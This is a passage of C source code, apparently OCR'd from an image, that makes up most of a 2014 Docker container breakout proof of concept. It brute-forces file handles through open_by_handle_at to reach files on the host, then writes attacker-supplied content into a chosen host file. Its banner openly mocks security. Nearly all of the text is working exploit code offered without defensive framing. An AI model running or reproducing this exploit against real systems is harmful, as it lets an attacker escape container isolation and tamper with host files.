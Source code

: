 ```c
memcpy(outh.f_handle, & ino, sizeof(ino));
memcpy(outh.f_handle + 4, & i, sizeof(i));
if ((i % (1 << 20)) == 0)
fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
closedir(dir);
close(fd);
dump_handle( & outh);
return find_handle(bfd, path, & outh, oh);
}
}
}
closedir(dir);
close(fd);
return 0;
}
int main(int argc, char * argv[]) {
char buf[0x1000];
int fd1, fd2;
struct my_file_handle h;
struct my_file_handle root_h = {
.handle_bytes = 8,
.handle_type = 1,
.f_handle = {
0x02,
0,
0,
0,
0,
0,
0,
0
}
};
fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
"[***] The tea from the 90's kicks your sekurity again. [***]\n"
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
read(0, buf, 1);
// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");
if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
die("[-] Cannot find valid handle!");
fprintf(stderr, "[!] Got a final handle!\n");
dump_handle( & h);
if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
die("[-] open_by_handle");
char * line = NULL;
size_t len = 0;
FILE * fptr;
ssize_t read;
fptr = fopen(argv[2], "r");
while ((read = getline( & line, & len, fptr)) != -1) {
write(fd2, line, read);
}
printf("Success!!\n");
close(fd2);
close(fd1);
return 0;
}
```
